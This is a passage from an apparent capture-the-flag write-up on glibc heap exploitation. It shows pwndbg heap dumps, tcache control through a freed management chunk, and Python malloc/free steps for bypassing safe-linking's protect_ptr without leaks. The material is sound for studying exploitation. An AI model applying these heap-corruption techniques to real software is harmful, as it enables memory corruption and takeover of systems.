 ```
0x55ea57266220	0x0000000000000000	0x0000000000000000	................
0x55ea57266230	0x0000000000000000	0x0000000000000000	................
0x55ea57266240	0x0000000000000000	0x0000000000000000	................
0x55ea57266250	0x0000000000000000	0x0000000000000000	................
0x55ea57266260	0x0000000000000000	0x0000000000000000	................
0x55ea57266270	0x0000000000000000	0x0000000000000000	................
0x55ea57266280	0x0000000000000000	0x0000000000000000	................
0x55ea57266290	0x0000000000000000
pwndbg> bins
tcachebins
empty
fastbins
empty
unsortedbin
all: 0x55ea572662d0 —▸ 0x7ffbebffed00 ◂— 0x55ea572662d0
smallbins
0x110: 0x55ea57267df0 —▸ 0x55ea57267b90 —▸ 0x7ffbebffee00 ◂— 0x55ea57267df0
largebins
empty

```

We can `free` the `mgmt` chunk and `re-allocate` it as much as we want.
This means that we now fully control the `per-thread cache`, giving us full `heap write` and the ability to control `LSB` of `t-cache` entries.


#### Bypassing protect_ptr without any leaks

This is funnily enough the easiest part of the entire challenge.

To do this, make two `t-cache` entries in two `t-cache bins` such as the following:
```python
###########################
#   Bypass protect_ptr    #
###########################

l1 = malloc(0x18, b'A'*0x18)
l2 = malloc(0x18, b'B'*0x18)

l3 = malloc(0x188, b'A'*0x188)
l4 = malloc(0x188, b'B'*0x188)

free(l1)
free(l2)
free(l3)
free(l4)
```

This will create the following heap setup:
```
pwndbg> vis 2

0x556630af6000	0x0000000000000000	0x0000000000000291	................
0x556630af6010	0x0000000556630af6	0x0000000000000000	..cV............
0x556630af6020	0x0000000000000000	0x0000000000000000	................
0x556630af6030	0x0000000000000000	0x0002000000000000	................
0x556630af6040	0x0000000000000000	0x0000000000000000	................
0x556630af6050	0x0000000000000000	0x0000000000000000	................
0x556630af6060	0x0000000000000000	0x0000000000000000	................
0x556630af6070	0x0000000000000000	0x0000000000000000	................
0x556630af6080	0x0000000000000000	0x0000000000000191	................
0x556630af6090	0x0000556630af6300	0x0000000000000000	.b.0fU..........
0x556630af60a0	0x0000000000000000	0x0000000000000000	................
0x556630af60b0	0x0000000000000000	0x0000000000000000	................
0x556630af60c0	0x0000000000000000	0x0000000000000000	................
```